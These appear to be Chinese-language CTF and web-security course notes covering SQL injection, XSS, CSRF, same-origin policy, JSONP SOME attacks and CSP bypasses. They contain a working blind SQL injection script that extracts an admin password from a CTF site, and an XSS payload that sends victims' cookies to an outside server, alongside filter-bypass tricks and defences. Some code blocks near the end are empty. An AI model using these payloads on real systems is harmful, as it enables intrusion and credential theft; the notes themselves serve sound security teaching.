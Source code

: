 # day6

## sql注入

*   sql盲注脚本

    ```python
    import requests
    import re
    import sys
    p = re.compile(r'''ID: (.+?)&nbspx:''')
    ans = ''
    for pos in range(1,33):
        l = 0
        r = 127
        cookies = {"PHPSESSID":"tf7511brt2272n9ne5i8dj6o35"}
        data = {"x": "1", "y": "1"}
        while l<r:
            mid = int((l+r)/2)
            resp = requests.post(
                "https://web.ctflearn.com/grid/controller.php?action=add_point", data=data, cookies=cookies).text
            resp = requests.get("https://web.ctflearn.com/grid/", cookies=cookies).text
            _id = p.search(resp).group(1)
            payload = _id +  ' and ord(mid((select password from user where username="admin" limit 0, 1), ' +  str(pos) + ',1))>' + str(mid)
            length = len(payload)
            resp = requests.get('''https://web.ctflearn.com/grid/controller.php?action=delete_point&point=O:5:"point":3:{s:1:"x";s:1:"1";s:1:"y";s:1:"1";s:2:"ID";s:'''+str(length)+''':"%s";}'''%payload,cookies=cookies,allow_redirects=False).text
            resp = requests.get("http://web.ctflearn.com/grid/",cookies=cookies).text
            if _id not in resp:
                l = mid+1
            else:
                r = mid
        if l==0:
            break
        ans = ans + chr(l)
        print(ans)
    ```

## XSS攻击与防御

### Cookie

* 获取cookie的方法：浏览器端（客户端） → document.cookie；服务器端（PHP） → $\_COOKIE\[]
* PS：服务器端的一个响应包中只能包含一个set-cookie
* Chrome的Windows Cookie的位置：AppData\Local...
* Cookie属性 → 分号分隔的键值对
  * domain只可以设置为页面本身或其子页面、不能设置为顶级域名

### XSS漏洞

* 简介：攻击者可以在页面上插入html代码，通过javaScript得到受害者信息。分类：
  1. 反射性：用户请求的中的参数直接输出到了页面中，形成XSS
  2. 存储性（评论功能）：将用户提交的评论存储在数据库的表中 → 从数据库中取出来直接显示在评论区中
  3. _DOM性_：页面中的源码中并无XSS攻击向量
* 危害：窃取信息、XSS蠕虫、命令执行
  * 命令执行：特权域XSS → WooYun-2016-170984；沙盒绕过 → CVE-2017-12581
* 编码：
  * HTML实体编码：符号的功能性编码与显示编码分离 → DOM元素的属性值会自动解码HTML编码
  * URL编码：后端需要进行一个decode
  * 页面编码：利用gbk编码漏洞 → 转移符`\`在gbk中的低字节位，如果在前面插入一个单字节高位字节，组合成一个合法字符，可以用于逃逸`\`
* XSS漏洞注入点
* XSS注入的一些小trick：
  1. 过滤`"."`，使用with语句；过滤`';'`，用换行
  2. url协议头可以去掉，如//example.com(http)
  3. HTML实体编码中，`';'`可以去掉
  4. 可以利用拼接eval函数执行代码，例如：`"a"+eval("alert(1)")`
* _hidden元素XSS_

### CTF中的XSS题目

* 绕过（例子：HCTF2016 guestbook）
*   课上习题2：

    * 爆破md5：

    ```php
    <?php
        $i = 0;
        while(1){
            if(substr(md5($i),0,6) === '966150')
                break;
            $$i = $$i +1;
        }
        echo $i;
    ?>
    ```

    * Payload：

    ```markup
    <script>
        with(document){
            location=`//760096541/`+escape(cookie)
        }
    </script>
    ```

    * 过滤了字符 `.` 使用 `with(){}` 指定作用域，地址转化为十进制（该十进制为指定的自己的服务器，在自己的服务器上可以得到cookie参数）

### XSS防御

* Chrome XSS Filter
* 过滤（不安全）
* 转义和编码 → 较安全的方法：编码（转成实体编码）
* HttpOnly → 后端代码中可以将Cookie添加一个给HttpOnly属性，这样就不会被前端的JS读取到

## CSRF攻击与防御

* CSRF: Cross-Site Request Forgery

### CSRF攻击

* 攻击分类：GET型、POST型、伪造请求、JSON
  * 307跳转：307跳转可以不改变请求主体，只改变请求目标。现在自己的服务器上放置一个main.html，包含产生307的flash，在统计
* CSRF绕过：
  * 空Referer → get请求、data协议、https向http跳转
  * Referer前缀绕过。比如检测前缀`https://www.qq.com`，可以自己注册域名`https://www.qq.comxx.xx`

### CSRF防御

* 方式：验证码、添加token、Referer

## 同源分析

* 源：协议 + 域名 + 端口

### 跨域方式

* Ajax：可以发送请求，但是不能带cookie
* CORS → 跨域资源共享
* windows.name可以跨域
* Jsonp → 可以实现从其他网站获取数据。数据包中的content是可控的。
  * a页面希望或许b页面的数据 → a向b发送一个jsonp请求 → 调用a页面中定义的CallBack函数

### jsonp攻击方式 → SOME攻击

SOME攻击：用户访问a.com可以实现在b.com上执行javascript

* [http://b.com/index.html](http://b.com/index.html)

```markup
<form>
    <button onclick="c()">Secret Button</button>
</form>
<script>
    function c() {alert("click!");}
</script>
```

* [http://b.com/jsonp.php](http://b.com/jsonp.php)

```php
<?php
    ?>
```

* [http://a.com/some1.html](http://a.com/some1.html)
* [http://a.com/some2.html](http://a.com/some2.html)

```markup
```

### CSP → content-src-policy

CSP绕过：

* url跳转：在default-src为'none'的情况下，可以使用meta标签实现跳转
* 标签预加载：CSP对link标签的预加载考虑不完善
* 利用浏览器补全
* 代码重用 → Blackhat2017上有篇ppt总结了可以被用来绕过CSP的一些JS库
* iframe → 如果同源的其他页面内没有CSP限制，则可以利用没有限制的页面实现绕过CSP
* meta标签 → meta可以控制缓存（在header没有设置的情况下），有时可以用来绕过CSP nonce
